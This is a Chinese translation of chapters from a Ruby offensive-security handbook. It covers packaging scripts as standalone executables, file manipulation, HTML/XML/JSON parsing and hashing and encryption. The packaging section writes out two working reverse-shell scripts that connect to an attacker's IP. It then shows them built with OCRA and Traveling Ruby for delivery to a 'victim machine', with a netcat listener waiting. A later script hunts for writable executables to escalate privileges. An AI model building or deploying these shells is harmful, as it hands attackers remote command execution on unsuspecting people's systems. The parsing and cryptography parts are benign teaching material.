

# 模块 0x2 | 系统功夫

# 模块 0x2 | 系统功夫

## 打包

很多关于构建一个独立应用程序的问题，不需要在系统上预先安装 Ruby。当然，由于攻击机器，你无法保证目标系统上是否安装了 Ruby。因此，在这里我们将演示一些方法。

### 一键 Ruby 应用程序(OCRA)构建器

OCRA（一键 Ruby 应用程序）从 Ruby 源代���构建 Windows 可执行文件。该可执行文件是一个自解压、自运行的可执行文件，包含了 Ruby 解释器、你的源代码以及任何额外需要的 Ruby 库或 DLL。

**仅支持 Windows**，当然不是 ;)

+   Features

    > +   LZMA 压缩（可选，默认开启）
    > +   
    > +   Ruby 1.8.7, 1.9.3, 2.0.0 和 2.1.5 支持
    > +   
    > +   支持窗口/控制台模式
    > +   
    > +   根据使用情况或从 Bundler Gemfile 中包含 gems

+   安装 OCRA

    ```
    gem install ocra 
    ```

所有你需要的就是你的应用程序。

假设我们有以下脚本，当然是一个反向 shell ;)

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
require 'socket'
if ARGV[0].nil? || ARGV[1].nil?
    puts "ruby #{__FILE__}.rb [HACKER_IP HACKER_PORT]\n\n"
    exit
end
ip, port = ARGV
s = TCPSocket.new(ip,port)
while cmd = s.gets
  IO.popen(cmd,"r"){|io|s.print io.read}
end 
```

从我们的 Windows 攻击机器 cmd.exe

```
C:\Users\admin\Desktop>ocra rshell.rb --windows --console 
```

结果

```
C:\Users\admin\Desktop>ocra rshell.rb --windows --console
=== Loading script to check dependencies
ruby C:/Users/admin/Desktop/rshell.rb.rb [HACKER_IP HACKER_PORT]

=== Attempting to trigger autoload of Gem::ConfigFile
=== Attempting to trigger autoload of Gem::DependencyList
=== Attempting to trigger autoload of Gem::DependencyResolver
=== Attempting to trigger autoload of Gem::Installer
=== Attempting to trigger autoload of Gem::RequestSet
=== Attempting to trigger autoload of Gem::Source
=== Attempting to trigger autoload of Gem::SourceList
=== Attempting to trigger autoload of Gem::SpecFetcher
=== Attempting to trigger autoload of CGI::HtmlExtension
=== Detected gem ocra-1.3.5 (loaded, files)
===     6 files, 191333 bytes
=== Detected gem io-console-0.4.3 (loaded, files)
=== WARNING: Gem io-console-0.4.3 root folder was not found, skipping
=== Including 53 encoding support files (3424768 bytes, use --no-enc to exclude)
=== Building rshell.exe
=== Adding user-supplied source files
=== Adding ruby executable ruby.exe
=== Adding detected DLL C:/Ruby22/bin/zlib1.dll
=== Adding detected DLL C:/Ruby22/bin/LIBEAY32.dll
=== Adding detected DLL C:/Ruby22/bin/SSLEAY32.dll
=== Adding detected DLL C:/Ruby22/bin/libffi-6.dll
=== Adding library files
=== Compressing 10622666 bytes
=== Finished building rshell.exe (2756229 bytes) 
```

在同一目录中，你会找到一个名为`rshell.exe`的可执行文件。将其发送到没有安装 Ruby 的 Windows 受害机器上并运行。

```
rshell.exe 192.168.0.14 9911 
```

我们的攻击机器已经在 9911 端口监听

```
nc -lvp 9911 
```


### Traveling-ruby

来自官方网站^(1) "*Traveling Ruby 是一个项目，提供自包含的“便携”Ruby 二进制文件：可以在任何 Linux 发行版和任何 OS X 机器上运行的 Ruby 二进制文件。它还支持 Windows（有一些注意事项）。这使得 Ruby 应用程序开发人员可以将这些二进制文件与他们的 Ruby 应用程序捆绑在一起，这样他们可以向最终用户分发一个单一的软件包，而无需让最终用户首先安装 Ruby 或 gems。*"

注意：以下脚本摘自官方文档。

#### 准备工作

```
mkdir rshell
cd rshell 
```

+   创建你的应用程序 -在我们的情况下，反向 shell- 在“rshell”文件夹中

**rshell.rb**

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
require 'socket'
if ARGV.size < 2
  puts "ruby #{__FILE__} [HACKER_IP] [HACKER_PORT]\n\n"
  exit 0 
end
ip, port = ARGV
s = TCPSocket.open(ip,port).to_i
exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",s,s,s) 
```

+   测试它

```
ruby rshell.rb 
# => ruby rshell.rb [HACKER_IP] [HACKER_PORT] 
```

##### 创建打包目录

下一步是为所有目标平台准备软件包，通过为每个平台创建一个目录，并将你的应用程序复制到每个目录中。 （假设你的应用程序在不同的操作系统上可能有所不同）

```
mkdir -p rshell-1.0.0-linux-x86/lib/app
cp rshell.rb rshell-1.0.0-linux-x86/lib/app/

mkdir -p rshell-1.0.0-linux-x86_64/lib/app
cp rshell.rb rshell-1.0.0-linux-x86_64/lib/app/

mkdir -p rshell-1.0.0-osx/lib/app/
cp rshell.rb rshell-1.0.0-osx/lib/app/ 
```

接下来，创建一个`packaging`目录，并将 Traveling Ruby 二进制文件下载到该目录中。然后将这些二进制文件解压缩到每个打包目录中。你可以在 Traveling Ruby 的 Amazon S3 存储桶中找到二进制文件列表。为了更快的下载速度，请使用 CloudFront 域名"[`d6r77u77i8pq3.cloudfront.net`](http://d6r77u77i8pq3.cloudfront.net)"。在本教程中，我们提取的是版本 20141215-2.1.5。

```
mkdir packaging
cd packaging
wget -c  http://d6r77u77i8pq3.cloudfront.net/releases/traveling-ruby-20141215-2.1.5-linux-x86.tar.gz
wget -c  http://d6r77u77i8pq3.cloudfront.net/releases/traveling-ruby-20141215-2.1.5-linux-x86_64.tar.gz
wget -c  http://d6r77u77i8pq3.cloudfront.net/releases/traveling-ruby-20141215-2.1.5-osx.tar.gz
cd ..

mkdir rshell-1.0.0-linux-x86/lib/ruby && tar -xzf packaging/traveling-ruby-20141215-2.1.5-linux-x86.tar.gz -C rshell-1.0.0-linux-x86/lib/ruby
mkdir rshell-1.0.0-linux-x86_64/lib/ruby && tar -xzf packaging/traveling-ruby-20141215-2.1.5-linux-x86_64.tar.gz -C rshell-1.0.0-linux-x86_64/lib/ruby
mkdir rshell-1.0.0-osx/lib/ruby && tar -xzf packaging/traveling-ruby-20141215-2.1.5-osx.tar.gz -C rshell-1.0.0-osx/lib/ruby 
```

现在，每个打包目录将包含 Ruby 二进制文件。看起来像这样：你的目录结构现在看起来像这样：

```
rshell/
 |
 +-- rshell.rb
 |
 +-- rshell-linux86/
 |   |
 |   +-- lib/
 |       +-- app/
 |       |   |
 |       |   +-- rshell.rb
 |       |
 |       +-- ruby/
 |           |
 |           +-- bin/
 |           |   |
 |           |   +-- ruby
 |           |   +-- ...
 |           +-- ...
 |
 +-- rshell-linux86_64/
 |   |
 |  ...
 |
 +-- rshell-osx/
     |
    ... 
```

##### 快速健全性测试

让我们通过使用捆绑的 Ruby 解释器运行你的应用程序进行基本的健全性测试。假设你在 OS X 上开发。运行以下命令：

```
cd rshell-osx
./lib/ruby/bin/ruby lib/app/rshell.rb
# => ruby rshell.rb.rb [HACKER_IP  HACKER_PORT]

cd .. 
```

##### 创建一个包装脚本

现在您已经验证了捆绑的 Ruby 解释器的工作，您将想要创建一个 *包装脚本*。毕竟，您不希望用户运行 `/path-to-your-app/lib/ruby/bin/ruby /path-to-your-app/lib/app/rshell.rb`。您希望他们运行 /path-to-your-app/rshell。

下面是包装脚本的示例：

```
#!/bin/bash
set -e

# Figure out where this script is located.
SELFDIR="`dirname \"$0\"`"
SELFDIR="`cd \"$SELFDIR\" && pwd`"

# Run the actual app using the bundled Ruby interpreter.
exec "$SELFDIR/lib/ruby/bin/ruby" "$SELFDIR/lib/app/rshell.rb" 
```

将此文件保存为 `packaging/wrapper.sh` 在您项目的根目录中。然后您可以将其复制到每个软件包目录并命名为 `rshell`：

```
chmod +x packaging/wrapper.sh
cp packaging/wrapper.sh rshell-1.0.0-linux-x86/rshell
cp packaging/wrapper.sh rshell-1.0.0-linux-x86_64/rshell
cp packaging/wrapper.sh rshell-1.0.0-osx/rshell 
```

##### 完成软件包

```
tar -czf rshell-1.0.0-linux-x86.tar.gz rshell-1.0.0-linux-x86
tar -czf rshell-1.0.0-linux-x86_64.tar.gz rshell-1.0.0-linux-x86_64
tar -czf rshell-1.0.0-osx.tar.gz rshell-1.0.0-osx
rm -rf rshell-1.0.0-linux-x86
rm -rf rshell-1.0.0-linux-x86_64
rm -rf rshell-1.0.0-osx 
```

恭喜，您已经使用 Traveling Ruby 创建了软件包！

一个 x86 Linux 用户现在可以这样使用您的应用程序：

1.  用户下载了 rshell-1.0.0-linux-x86.tar.gz。

1.  用户提取此文件。

1.  用户运行您的应用程序：

```
/path-to/rshell-1.0.0-linux-x86/rshell
# => ruby rshell.rb.rb [HACKER_IP  HACKER_PORT] 
```

##### 自动化流程

在每次发布时执行上述所有步骤都很麻烦，因此您应该自动化打包过程，例如使用 Rake。以下是 Rakefile 的示例：

```
PACKAGE_NAME = "rshell"
VERSION = "1.0.0"
TRAVELING_RUBY_VERSION = "20150210-2.1.5"

desc "Package your app"
task :package => ['package:linux:x86', 'package:linux:x86_64', 'package:osx']

namespace :package do
  namespace :linux do
    desc "Package your app for Linux x86"
    task :x86 => "packaging/traveling-ruby-#{TRAVELING_RUBY_VERSION}-linux-x86.tar.gz" do
      create_package("linux-x86")
    end

    desc "Package your app for Linux x86_64"
    task :x86_64 => "packaging/traveling-ruby-#{TRAVELING_RUBY_VERSION}-linux-x86_64.tar.gz" do
      create_package("linux-x86_64")
    end
  end

  desc "Package your app for OS X"
  task :osx => "packaging/traveling-ruby-#{TRAVELING_RUBY_VERSION}-osx.tar.gz" do
    create_package("osx")
  end
end

file "packaging/traveling-ruby-#{TRAVELING_RUBY_VERSION}-linux-x86.tar.gz" do
  download_runtime("linux-x86")
end

file "packaging/traveling-ruby-#{TRAVELING_RUBY_VERSION}-linux-x86_64.tar.gz" do
  download_runtime("linux-x86_64")
end

file "packaging/traveling-ruby-#{TRAVELING_RUBY_VERSION}-osx.tar.gz" do
  download_runtime("osx")
end

def create_package(target)
  package_dir = "#{PACKAGE_NAME}-#{VERSION}-#{target}"
  sh "rm -rf #{package_dir}"
  sh "mkdir -p #{package_dir}/lib/app"
  sh "cp rshell.rb #{package_dir}/lib/app/"
  sh "mkdir #{package_dir}/lib/ruby"
  sh "tar -xzf packaging/traveling-ruby-#{TRAVELING_RUBY_VERSION}-#{target}.tar.gz -C #{package_dir}/lib/ruby"
  sh "cp packaging/wrapper.sh #{package_dir}/rshell"
  if !ENV['DIR_ONLY']
    sh "tar -czf #{package_dir}.tar.gz #{package_dir}"
    sh "rm -rf #{package_dir}"
  end
end

def download_runtime(target)
  sh "cd packaging && curl -L -O --fail " +
    "http://d6r77u77i8pq3.cloudfront.net/releases/traveling-ruby-#{TRAVELING_RUBY_VERSION}-#{target}.tar.gz"
end 
```

您可以通过运行以下命令来创建所有 3 个软件包：

```
rake package 
```

您还可以通过运行以下命令之一为特定平台创建软件包：

```
rake package:linux:x86
rake package:linux:x86_64
rake package:osx 
```

您还可以通过传递 DIR_ONLY=1 来仅创建软件包目录，而不创建 .tar.gz 文件：

```
rake package DIR_ONLY=1
rake package:linux:x86 DIR_ONLY=1
rake package:linux:x86_64 DIR_ONLY=1
rake package:osx DIR_ONLY=1 
```

##### 在受害者机器上

现在您有三个文件，可以分发给最终用户。

```
rshell-1.0.0-linux-x86.tar.gz
rshell-1.0.0-linux-x86_64.tar.gz
rshell-1.0.0-osx.tar.gz 
```

假设最终用户使用的是 Linux x86_64。他/她通过下载 rshell-1.0.0-linux-x86_64.tar.gz，解压缩并运行它来使用您的应用程序：

```
wget rshell-1.0.0-linux-x86_64.tar.gz
...
tar xzf rshell-1.0.0-linux-x86_64.tar.gz
cd rshell-1.0.0-linux-x86_64
./rshell
# => ruby rshell.rb.rb [HACKER_IP  HACKER_PORT] 
```

#### mruby

**mruby CLI**^(2) 用于设置具有将二进制文件编译到 Linux、OS X 和 Windows 的 mruby 的 CLI 的实用程序。

##### 先决条件

+   mruby-cli

+   Docker

+   Docker Compose

##### 开发者介绍

[`www.youtube.com/watch?v=OvuZ8R4Y9xA`](https://www.youtube.com/watch?v=OvuZ8R4Y9xA)

## 闭源代码

有时出于某种原因，我们不想透露我们的源代码，但我们仍然希望商业或免费分享我们的应用程序。这里有一个商业解决方案，RubyEncoder。

**RubyEncoder**^(3) 通过将 Ruby 源代码编译成字节码格式并进行加密来保护 Ruby 脚本。这样可以防止反向工程。使用 RubyEncoder 保护的 Ruby 脚本可以执行，但无法用于提取 Ruby 源代码，因为受保护的脚本中没有任何形式的源代码。

* * *

> ¹. Traveling-ruby: [官方网站](http://phusion.github.io/traveling-ruby/) ↩
> 
> ². mruby CLI: [官方网站](https://github.com/hone/mruby-cli) ↩
> 
> ³. RubyEncoder: [官方网站](http://rubyencoder.com) ↩

# 文件操作

# 文件操作

## 简单隐写术

简单脚本，将文件 `file.pdf` 隐藏在图像 `image.png` 中，然后将其写入原始为 `image.png` 的 `steg.png` 图像中

然后，从 `steg.png` 中恢复 `file.pdf` 到 `hola.pdf`。

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
file1, file2 = ARGV
sec_file = File.read file1    # 'file.pdf'
nor_file = File.read file2    # 'image.png'
sep = '*------------------------*'
one_file = [nor_file, sep, sec_file]

# Write sec_file, sep, nor_file into steg.png
File.open("steg.png", 'wb') do |stg|
  one_file.each do |f|
    stg.puts f
  end
end

# Read steg.png to be like "one_file" array
recov_file = File.read('steg.png').force_encoding("BINARY").split(sep).last
# Write sec_file to hola.pdf
File.open('hola.pdf', 'wb') {|file| file.print recov_file} 
```

**注意：** 这与绕过 AV 无关。

## 简单的二进制文件转换为十六进制

**hex-simple.rb**

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
# Simple file to hex converter script
#
file_name = ARGV[0]

file = File.open(file_name , 'rb')
file2hex = file.read.each_byte.map { |b| '\x%02x' % b }.join    # b.to_s(16).rjust(2, '0')

puts file2hex 
```

```
ruby hex-simple.rb ../assembly/hellolinux 
```

或者在一个命令行中

```
ruby -e "puts  File.open('hellolinux').read.each_byte.map { |b| '\x%02X' % b }.join" 
```

返回

```
\x7F\x45\x4C\x46\x01\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x02\x00\x03\x00\x01\x00\x00\x00\x80\x80\x04\x08\x34\x00\x00\x00\xCC\x00\x00\x00\x00\x00\x00\x00\x34\x00\x20\x00\x02\x00\x28\x00\x04\x00\x03\x00\x01\x00\x00\x00\x00\x00\x00\x00\x00\x80\x04\x08\x00\x80\x04\x08\xA2\x00\x00\x00\xA2\x00\x00\x00\x05\x00\x00\x00\x00\x10\x00\x00\x01\x00\x00\x00\xA4\x00\x00\x00\xA4\x90\x04\x08\xA4\x90\x04\x08\x0E\x00\x00\x00\x0E\x00\x00\x00\x06\x00\x00\x00\x00\x10\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xB8\x04\x00\x00\x00\xBB\x01\x00\x00\x00\xB9\xA4\x90\x04\x08\xBA\x0D\x00\x00\x00\xCD\x80\xB8\x01\x00\x00\x00\xBB\x00\x00\x00\x00\xCD\x80\x00\x00\x48\x65\x6C\x6C\x6F\x2C\x20\x57\x6F\x72\x6C\x64\x21\x0A\x00\x2E\x73\x68\x73\x74\x72\x74\x61\x62\x00\x2E\x74\x65\x78\x74\x00\x2E\x64\x61\x74\x61\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x0B\x00\x00\x00\x01\x00\x00\x00\x06\x00\x00\x00\x80\x80\x04\x08\x80\x00\x00\x00\x22\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x10\x00\x00\x00\x00\x00\x00\x00\x11\x00\x00\x00\x01\x00\x00\x00\x03\x00\x00\x00\xA4\x90\x04\x08\xA4\x00\x00\x00\x0E\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x04\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x03\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xB2\x00\x00\x00\x17\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00 
```

> 注意，如果想要将十六进制前缀从 \x 更改为其他内容，只需将 `'\x%x'` 更改为你想要的内容，或者将其删除！

## 简单的十六进制转储

**hexdump.rb**

```
#!/usr/bin/env ruby
#
# Source: http://c2.com/cgi/wiki?HexDumpInManyProgrammingLanguages
#
def hexdump(filename, start = 0, finish = nil, width = 16)
  ascii = ''
  counter = 0
  print '%06x  ' % start
  File.open(filename).each_byte do |c|
    if counter >= start
      print '%02x ' % c
      ascii << (c.between?(32, 126) ? c : ?.)
      if ascii.length >= width
    puts ascii
    ascii = ''
    print '%06x  ' % (counter + 1)
      end
    end
    throw :done if finish && finish <= counter
    counter += 1
  end rescue :done
  puts '   ' * (width - ascii.length) + ascii
end

if $0 == __FILE__
  if ARGV.empty?
    hexdump $0
  else
    filename = ARGV.shift
    hexdump filename, *(ARGV.map {|arg| arg.to_i })
  end
end 
```

```
ruby hexdump.rb hellolinux 
```

返回

```
000000  7f 45 4c 46 01 01 01 00 00 00 00 00 00 00 00 00 .ELF............
000010  02 00 03 00 01 00 00 00 80 80 04 08 34 00 00 00 ............4...
000020  cc 00 00 00 00 00 00 00 34 00 20 00 02 00 28 00 ........4\. ...(.
000030  04 00 03 00 01 00 00 00 00 00 00 00 00 80 04 08 ................
000040  00 80 04 08 a2 00 00 00 a2 00 00 00 05 00 00 00 ................
000050  00 10 00 00 01 00 00 00 a4 00 00 00 a4 90 04 08 ................
000060  a4 90 04 08 0e 00 00 00 0e 00 00 00 06 00 00 00 ................
000070  00 10 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ................
000080  b8 04 00 00 00 bb 01 00 00 00 b9 a4 90 04 08 ba ................
000090  0d 00 00 00 cd 80 b8 01 00 00 00 bb 00 00 00 00 ................
0000a0  cd 80 00 00 48 65 6c 6c 6f 2c 20 57 6f 72 6c 64 ....Hello, World
0000b0  21 0a 00 2e 73 68 73 74 72 74 61 62 00 2e 74 65 !...shstrtab..te
0000c0  78 74 00 2e 64 61 74 61 00 00 00 00 00 00 00 00 xt..data........
0000d0  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ................
0000e0  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ................
0000f0  00 00 00 00 0b 00 00 00 01 00 00 00 06 00 00 00 ................
000100  80 80 04 08 80 00 00 00 22 00 00 00 00 00 00 00 ........".......
000110  00 00 00 00 10 00 00 00 00 00 00 00 11 00 00 00 ................
000120  01 00 00 00 03 00 00 00 a4 90 04 08 a4 00 00 00 ................
000130  0e 00 00 00 00 00 00 00 00 00 00 00 04 00 00 00 ................
000140  00 00 00 00 01 00 00 00 03 00 00 00 00 00 00 00 ................
000150  00 00 00 00 b2 00 00 00 17 00 00 00 00 00 00 00 ................
000160  00 00 00 00 01 00 00 00 00 00 00 00             ............ 
```

## 查找弱文件权限

后��透的一个重要任务是查找弱可执行文件权限，这些权限可能由 root/administrator 用户执行，试图提升我们在系统上的权限。同时，我们的脚本必须适用于所有系统

**find777.rb**

```
# KING SABRI | @KINGSABRI
# Find all executable, writable files in the path
#
require 'find'

path = ARGV[0]

search = Find.find(path)

def wx_file(search)
  search.select do |file|
    File.file?(file) && File.executable?(file) && File.writable?(file)
  end  
end

puts wx_file search 
```

你可以搜索读取、写入、执行权限，因此你的迭代块将如下所示

```
 search.select do |file|
    File.stat(file).mode.to_s(8)[-3..-1].to_i == 777
  end 
```

# 解析 HTML、XML、JSON

# 解析 HTML、XML、JSON

一般来说，解析 HTML 和 XML 的最佳且最简单的方法是使用**Nokogiri**库

+   安装 Nokogiri

    ```
    gem install nokogiri 
    ```

## HTML

在这里我们将使用 nokogiri 列出我们从 `http://rubyfu.net/content/` 中的内容列表

### 使用 CSS 选择器

```
require 'nokogiri'
require 'open-uri'

page = Nokogiri::HTML(open("http://rubyfu.net/content/"))
page.css(".book .book-summary ul.summary li a, .book .book-summary ul.summary li span").each { |css| puts css.text.strip.squeeze.gsub("\n", '')} 
```

返回

```
RubyFu
Module 0x0 | Introduction
0.1\.  Contribution
0.2\.  Beginners
0.3\.  Required Gems
1\.  Module 0x1 | Basic Ruby Kung Fu
1.1\.  String
1.1.1\.  Conversion
1.1.2\.  Extraction
1.2\.  Array
2\.  Module 0x2 | System Kung Fu
2.1\.  Command Execution
2.2\.  File manipulation
2.2.1\.  Parsing HTML, XML, JSON
2.3\.  Cryptography
2.4\.  Remote Shell
2.4.1\.  Ncat.rb
2.5\.  VirusTotal
3\.  Module 0x3 | Network Kung Fu
3.1\.  Ruby Socket
3.2\.  FTP
3.3\.  SSH
3.4\.  Email
3.4.1\.  SMTP Enumeration
3.5\.  Network Scanning
.
.
..snippet.. 
```

## XML

我们想要展示这里有 2 种方法，标准库 `rexml 和 nokogiri 外部库`

我们有以下 XML 文件

```
<?xml version="1.0"?>
<collection shelf="New Arrivals">
<movie title="Enemy Behind">
   <type>War, Thriller</type>
   <format>DVD</format>
   <year>2003</year>
   <rating>PG</rating>
   <stars>10</stars>
   <description>Talk about a US-Japan war</description>
</movie>
<movie title="Transformers">
   <type>Anime, Science Fiction</type>
   <format>DVD</format>
   <year>1989</year>
   <rating>R</rating>
   <stars>8</stars>
   <description>A scientific fiction</description>
</movie>
   <movie title="Trigun">
   <type>Anime, Action</type>
   <format>DVD</format>
   <episodes>4</episodes>
   <rating>PG</rating>
   <stars>10</stars>
   <description>Vash the Stampede!</description>
</movie>
<movie title="Ishtar">
   <type>Comedy</type>
   <format>VHS</format>
   <rating>PG</rating>
   <stars>2</stars>
   <description>Viewable boredom</description>
</movie>
</collection> 
```

### REXML

```
require 'rexml/document'
include REXML

file = File.read "file.xml"
xmldoc = Document.new(xmlfile)

# Get the root element
root = xmldoc.root
puts "Root element : " + root.attributes["shelf"]

# List of movie titles.
xmldoc.elements.each("collection/movie") do |e|
  puts "Movie Title : " + e.attributes["title"] 
end

# List of movie types.
xmldoc.elements.each("collection/movie/type") do |e|
  puts "Movie Type : " + e.text 
end

# List of movie description.
xmldoc.elements.each("collection/movie/description") do |e|
  puts "Movie Description : " + e.text
end

# List of movie stars
xmldoc.elements.each("collection/movie/stars") do |e|
  puts "Movie Stars : " + e.text
end 
```

### Nokogiri

```
require 'nokogiri' 
```

#### Slop

```
require 'nokogiri'
# Parse XML file
doc = Nokogiri::Slop file

puts doc.search("type").map {|f| t.text}        # List of Types
puts doc.search("format").map {|f| f.text}      # List of Formats
puts doc.search("year").map {|y| y.text}        # List of Year
puts doc.search("rating").map {|r| r.text}      # List of Rating
puts doc.search("stars").map {|s| s.text}       # List of Stars
doc.search("description").map {|d| d.text}      # List of Descriptions 
```

## JSON

假设你有一个小的漏洞数据库，格式如下的 json 文件

```
{
  "Vulnerability": 
  [
    {
      "name": "SQLi",
      "details:": 
        {
          "full_name": "SQL injection",
          "description": "An injection attack wherein an attacker can execute malicious SQL statements",
          "references": [
            "https://www.owasp.org/index.php/SQL_Injection", 
            "https://cwe.mitre.org/data/definitions/89.html"
            ],
          "type": "web"
        }
    }
  ]
} 
```

解析它

```
require 'json'
vuln_json = JSON.parse(File.read('vulnerabilities.json')) 
```

返回一个哈希

```
{"Vulnerability"=>`
  [{"name"=>"SQLi",
    "details:"=>
     {"full_name"=>"SQL injection",
      "description"=>"An injection attack wherein an attacker can execute malicious SQL statements",
      "references"=>["https://www.owasp.org/index.php/SQL_Injection", "https://cwe.mitre.org/data/definitions/89.html"],
      "type"=>"web"}}]} 
```

现在你可以像处理哈希一样检索和数据

```
vuln_json["Vulnerability"].each {|vuln| puts vuln['name']} 
```

如果要添加到此数据库，只需创建一个具有相同结构的哈希。

```
xss = {"name"=>"XSS", "details:"=>{"full_name"=>"Corss Site Scripting", "description"=>" is a type of computer security vulnerability typically found in web applications", "references"=>["https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)", "https://cwe.mitre.org/data/definitions/79.html"], "type"=>"web"}} 
```

你可以通过使用 `.to_json` 方法将其转换为 json

```
xss.to_json 
```

# 密码学

# 密码学

## 生成哈希

### MD5 哈希

```
require 'digest'
puts Digest::MD5.hexdigest 'P@ssw0rd' 
```

### SHA1 哈希

```
require 'digest'
puts Digest::SHA1.hexdigest 'P@ssw0rd' 
```

### SHA2 哈希

在 SHA2 中，你有两种方法可以做到。

**方法 #1：** 通过创建一个具有给定位数的新 SHA2 哈希对象。

```
require 'digest'

# 1
sha2_256 = Digest::SHA2.new(bitlen = 256) # bitlen could be 256, 384, 512
sha2_256.hexdigest 'P@ssw0rd'

# 2
Digest::SHA2.new(bitlen = 256).hexdigest 'P@ssw0rd' 
```

**方法 #2：** 通过直接使用类

```
require 'digest'
puts Digest::SHA256.hexdigest 'P@ssw0rd'
puts Digest::SHA384.hexdigest 'P@ssw0rd'
puts Digest::SHA512.hexdigest 'P@ssw0rd' 
```

**奖励：生成类似 Linux 的 Shadow 密码**

```
require 'digest/sha2'
password = 'P@ssw0rd'
salt = rand(36**8).to_s(36)
shadow_hash = password.crypt("$6$" + salt) 
```

### Windows LM 密码哈希

```
require 'openssl'

def split7(str)
  str.scan(/.{1,7}/)
end

def gen_keys(str)
  split7(str).map do |str7| 

    bits = split7(str7.unpack("B*")[0]).inject('') do |ret, tkn| 
      ret += tkn + (tkn.gsub('1', '').size % 2).to_s 
    end

    [bits].pack("B*")
  end
end

def apply_des(plain, keys)
  dec = OpenSSL::Cipher::DES.new
  keys.map {|k|
    dec.key = k
    dec.encrypt.update(plain)
  }
end

LM_MAGIC = "KGS!@\#$%"
def lm_hash(password)
  keys = gen_keys password.upcase.ljust(14, "\0")
  apply_des(LM_MAGIC, keys).join
end

puts lm_hash "P@ssw0rd" 
```

[来源 | RubyNTLM](https://github.com/wimm/rubyntlm/blob/master/lib/net/ntlm.rb)

### Windows NTLMv1 密码哈希

```
require 'openssl'
ntlmv1 = OpenSSL::Digest::MD4.hexdigest "P@ssw0rd".encode('UTF-16LE')
puts ntlmv1 
```

### Windows NTLMv2 密码哈希

```
require 'openssl'
ntlmv1 = OpenSSL::Digest::MD4.hexdigest "P@ssw0rd".encode('UTF-16LE')
userdomain = "administrator".encode('UTF-16LE')
ntlmv2 = OpenSSL::HMAC.digest(OpenSSL::Digest::MD5.new, ntlmv1, userdomain)
puts ntlmv2 
```

### MySQL 密码哈希

```
puts "*" + Digest::SHA1.hexdigest(Digest::SHA1.digest('P@ssw0rd')).upcase 
```

### PostgreSQL 密码哈希

PostgreSQL 哈希将密码和用户名组合，然后在哈希前添加**md5**

```
require 'digest/md5'
puts 'md5' + Digest::MD5.hexdigest('P@ssw0rd' + 'admin') 
```

## 对称加密

列出所有支持的算法

```
require 'openssl'
puts OpenSSL::Cipher.ciphers 
```

要理解密码命名（例如 `AES-128-CBC`），它被分为 3 部分，由连字符分隔 `<名称>-<密钥长度>-<模式>`

对称加密算法模式需要 3 个重要数据才能工作

1.  密钥（密码）

1.  初始向量（iv）

1.  要加密的数据（明文）

### AES 加密

#### 加密

```
require "openssl"

data = 'Rubyfu Secret Mission: Go Hack The World!'

# Setup the cipher
cipher = OpenSSL::Cipher::AES.new('256-CBC')    # Or use: OpenSSL::Cipher.new('AES-256-CBC')
cipher.encrypt                                  # Initializes the Cipher for encryption. (Must be called before key, iv, random_key, random_iv)
key = cipher.random_key                         # If hard coded key, it must be 265-bits length
iv = cipher.random_iv                           # Generate iv
encrypted = cipher.update(data) + cipher.final  # Finalize the encryption 
```

#### 解密

```
decipher = OpenSSL::Cipher::AES.new('256-CBC')  # Or use: OpenSSL::Cipher::Cipher.new('AES-256-CBC')
decipher.decrypt                                # Initializes the Cipher for dencryption. (Must be called before key, iv, random_key, random_iv)
decipher.key = key                              # Or generate secure random key: cipher.random_key
decipher.iv = iv                                # Generate iv
plain = decipher.update(encrypted) + decipher.final  # Finalize the dencryption 
```

**资源**

+   [OpenSSL::Cipher 文档](https://ruby-doc.org/stdlib-2.3.3/libdoc/openssl/rdoc/OpenSSL/Cipher.html)

+   [(对称) 使用 Ruby（和 Rails）进行加密](http://stuff-things.net/2015/02/12/symmetric-encryption-with-ruby-and-rails/)

## 凯撒密码

